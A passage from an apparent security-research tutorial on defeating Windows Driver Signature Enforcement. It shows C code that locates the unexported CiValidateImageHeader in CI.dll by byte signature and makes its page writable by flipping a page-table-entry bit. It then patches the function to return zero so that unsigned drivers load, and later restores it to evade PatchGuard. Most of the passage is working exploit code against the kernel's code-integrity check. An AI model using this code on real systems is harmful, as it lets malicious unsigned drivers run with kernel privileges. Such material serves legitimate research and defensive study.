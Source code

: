 Now we have the ability to resolve PTE’s for a virtual address, we need to find the virtual address of `CiValidateImageHeader`. As this function isn’t exported by `CI.dll`, we’re again going to have to hunt for it by signature:

```
char CiValidateImageHeaderSig[] = { 0x48, 0x33, 0xc4, 0x48, 0x89, 0x45, 0x50, 0x48, 0x8b };
const int CiValidateImageHeaderSigOffset = 0x23;

ULONG_PTR CiValidateImageHeader = signatureSearch(CiValidateFileObjectPtr, CiValidateImageHeaderSig, sizeof(CiValidateImageHeaderSig), 0x100000);

if (CiValidateImageHeader == NULL) {
  return;
}

CiValidateImageHeader -= CiValidateImageHeaderSigOffset;

```

Once we have its address, we can get the PTE location for a virtual address. We just need to flip a bit in the corresponding PTE value forcing the page of memory containing `CiValidateImageHeader` to be writable:

```
ULONG64 *pte = FindPageTableEntry(CiValidateImageHeader);
*pte = *pte | 2;

```

With the page set to writable, we can next just patch the beginning of the function with a `xor rax, rax; ret`, making sure we take a backup of the original instructions for restoring later:

```
char retShell[] = { 0x48, 0x31, 0xc0, 0xc3 };
char origBytes[4];

memcpy(origBytes, CiValidateImageHeader, 4);
memcpy(CiValidateImageHeader, retShell, 4);

```

And then return page protection for sanity:

```
*pte = *pte ^ 2;


```

Once executed, let’s try and load our unsigned driver:

Another important thing to consider once we are done loading our unsigned driver is reverting the previously patched function to avoid any issues with PatchGuard. Again, this is as simple as just reverting our code change:

```
*pte = *pte | 2;
memcpy(CiValidateImageHeader, origBytes, 4);
*pte = *pte ^ 2;

```
